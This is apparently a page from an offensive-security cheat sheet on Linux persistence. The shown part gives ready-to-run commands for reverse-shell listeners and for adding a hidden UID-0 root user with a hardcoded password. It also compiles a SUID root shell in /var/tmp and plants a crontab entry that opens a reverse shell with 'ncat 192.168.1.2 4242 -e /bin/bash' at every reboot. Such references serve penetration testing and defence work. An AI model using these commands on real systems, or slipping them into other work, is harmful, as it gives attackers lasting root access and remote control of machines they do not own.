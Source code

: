 # Linux - Persistence

## Summary

* [Basic reverse shell](#basic-reverse-shell)
* [Add a root user](#add-a-root-user)
* [Suid Binary](#suid-binary)
* [Crontab - Reverse shell](#crontab---reverse-shell)
* [Backdooring a user's bash_rc](#backdooring-a-users-bash_rc)
* [Backdooring a startup service](#backdooring-a-startup-service)
* [Backdooring a user startup file](#backdooring-a-user-startup-file)
* [Backdooring Message of the Day](#backdooring-message-of-the-day)
* [Backdooring a driver](#backdooring-a-driver)
* [Backdooring the APT](#backdooring-the-apt)
* [Backdooring the SSH](#backdooring-the-ssh)
* [Backdooring Git](#backdooring-git)
* [Additional Linux Persistence Options](#additional-persistence-options)
* [References](#references)


## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Add a root user

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab - Reverse shell

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```
